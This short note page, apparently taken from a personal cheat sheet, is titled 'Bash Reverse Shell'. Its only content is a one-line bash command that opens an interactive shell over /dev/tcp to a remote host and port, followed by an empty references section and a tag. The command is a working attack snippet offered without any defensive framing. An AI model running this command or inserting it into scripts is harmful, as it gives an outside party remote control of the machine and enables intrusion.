 # Bash Reverse Shell
```
/bin/bash -i >& /dev/tcp/192.168.0.1/4433 0>&1
```

# References

Tags:
    #assorted


